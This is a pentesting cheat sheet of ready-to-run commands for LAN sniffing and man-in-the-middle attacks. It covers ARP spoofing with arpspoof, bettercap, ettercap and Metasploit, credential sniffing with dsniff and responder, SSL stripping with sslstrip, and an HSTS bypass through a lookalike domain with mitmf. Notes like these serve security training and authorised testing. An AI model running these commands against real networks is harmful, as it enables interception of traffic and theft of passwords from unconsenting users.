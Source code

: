 # Sniffing
## $ tcpdump
```bash
$ tcpdump
```
# (OSI/ISO 2 Layer - Data Link)

## $ arpspoof (spoof)
**arpspoof** redirects packets from a target host (or all hosts) on the LAN intended for another host on the LAN by forging ARP replies.  
https://www.geeksforgeeks.org/ssl-stripping-and-arp-spoofing-in-kali-linux/
```bash
$ arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
```

![[tools/arpspoof#MitM]]

## $ msf>arp_poisoning (spoof)

```bash
msf> auxiliary/spoof/arp/arp_poisoning
set DHOSTS *IP address of the attacked system*
set SHOSTS *IP address of the gateway*
```

## $ bettercap (spoof + sniff)
```bash
$ bettercap [-I eth0] # default spoofing attack against all hosts
$ bettercap [-I eth0] --no-spoofing # discovery devices in network, network sniffing, Mitm attack 
$ bettercap [-I eth0] -T <target_IP> # ARP spoofing attack against host, MitM attack
$ bettercap [-I eth0] -X  -T <target_IP> -G <gateway_IP># default spoofing attack against all hosts with sniffing, Mitm attack
```

## $ ettercap (spoof + sniff)

```bash
$ ettercap -G # run ettercap, graphic mode
$ ettercap -T -M [-i eth0] [-L </tmp/logfile>] <IP1> [<IP2>] # MitM attack and sniff connection
```

#  (OSI/ISO 3 Layer - Network)
## $ dsniff (password sniff)
When MitM (`$ apr-spoof...`) attack is running it sniffs for creds, etc. 
```bash
$ dsniff -i <interface> 
```

## $ responder (NTLMv1/NTLMv2 sniff)
**LLMNR** - Link-Local Multicast Name Resolution (succesor of **NBT-NS** - NetBIOS Name Service). 
They allow for machines within a Windows-based network to find one another and is essentially a “fall-back” protocol used for the resolution of hostnames within a network when resolving of hostnames via DNS fails.
![[tools/responder]]

## $ Cain&Abel
Graphical tool for windows.
# Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks

# SSL Trafic stripping

## $ sslstrip
The way sslstrip works is as follows:
1. Performs a MITM attack on the HTTPS connection between the victim and the server
2. Replaces the HTTPS links with HTTP clone links and remembers the links which were changed 
3. Communicates with the victim client over HTTP connections for any secure link 
4. Communicates with the legitimate server over HTTPS for the same secure link
5. The sslstip attacker machine transparently proxies the communications between the victim and the server 
6. Favicon images are replaced with the known "secure lock" icon to provide familiar visual confirmations 
7. Sslstrip logs all traffic passing through so passwords, credentials etc. are stolen without the victim knowing
```bash
# enable IP forwarding
# echo 1 > /proc/sys/net/ipv4/ip_forward

# set up port redirection iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 8080
$ sslstrip -a -f -l 8080 -w els_sslt 
# -w file to write - logs
# -l - port to listen on
# -f - favicon
# -a - log all SSL and HTTP trafic
```

## $ bettercap
`bettercap` already implements sslstrip, to runsslstrip:
```bash
$ bettercap -T <target_IP> -G <gateway_IP> --prox-https # MitM attack with sslstrip enabled
```

# HSTS bypass
The following summarizes the attack in action: 
1. The victim goes to google.com (not in the HSTS preload list) 
2. We (attacker) intercept the traffic and change the links in the web page. For example we change accounts.google.com to acccounts.google.com (notice the three 'ccc') 
3. The victim makes a DNS request for the domain acccounts.google.com 
4. We intercept the request, forward the real DNS request and respond to the victim with a fake domain and the IP address
5. The victim web browser will now search if the domain should be accessed securely (HTTPS). This can be done by checking the HSTS preloaded list or by checking if the domain has already been visited, and then has the HSTS header already set (and not expired). 
6. Since the domain is different (it is acccounts with three 'c'), the browser will continue the communication via HTTP.
## $ mitmf

```bash
$ python mitmf.py -i eth0 --spoof --arp --dns --hsts --gateway <IP> --targets <IP1> [<IP2>]
```